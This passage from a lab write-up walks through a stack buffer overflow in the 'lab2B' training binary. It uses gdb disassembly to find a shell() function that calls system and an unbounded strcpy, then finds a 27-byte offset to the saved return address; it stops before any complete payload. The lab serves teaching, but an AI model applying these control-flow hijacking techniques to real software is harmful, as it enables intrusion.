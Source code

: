 First, let's get the address of `shell()` and make sure we can divert control flow to it. We'll do this by overwriting the saved return address on the stack that would be left by `main()` when calling `print_name()`.

```console
lab2B@warzone:/levels/lab02$ gdb ./lab2B
gdb-peda$ disas shell
Dump of assembler code for function shell:
   0x080486bd <+0>:     push   ebp
   0x080486be <+1>:     mov    ebp,esp
   0x080486c0 <+3>:     sub    esp,0x18
   0x080486c3 <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080486c6 <+9>:     mov    DWORD PTR [esp],eax
   0x080486c9 <+12>:    call   0x8048590 <system@plt>
   0x080486ce <+17>:    leave
   0x080486cf <+18>:    ret
End of assembler dump.
```

Recall, there's no ASLR in these early labs so we know we need to jump to `0x080486bd`. With `gdb` we can figure out how much of the stack we need to overrun before we hit the return address, indicated by a Segmentation Fault after the function returns.

```
gdb-peda$ run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
Starting program: /levels/lab02/lab2B AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
Hello AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII

Program received signal SIGSEGV, Segmentation fault.
Invalid $PC address: 0x48484847 # GHHH
```
It looks like 27 bytes is doing the trick. We can confirm this by analyzing the assembly of `print_name()` with `gdb`.

```
gdb-peda$ disas print_name
Dump of assembler code for function print_name:
   0x080486d0 <+0>:     push   ebp
   0x080486d1 <+1>:     mov    ebp,esp
   0x080486d3 <+3>:     sub    esp,0x28
   0x080486d6 <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080486d9 <+9>:     mov    DWORD PTR [esp+0x4],eax
   0x080486dd <+13>:    lea    eax,[ebp-0x17]
   0x080486e0 <+16>:    mov    DWORD PTR [esp],eax
   0x080486e3 <+19>:    call   0x8048580 <strcpy@plt>
   0x080486e8 <+24>:    lea    eax,[ebp-0x17]
   0x080486eb <+27>:    mov    DWORD PTR [esp+0x4],eax
   0x080486ef <+31>:    mov    DWORD PTR [esp],0x80487d8
   0x080486f6 <+38>:    call   0x8048570 <printf@plt>
   0x080486fb <+43>:    leave
   0x080486fc <+44>:    ret
End of assembler dump.
```
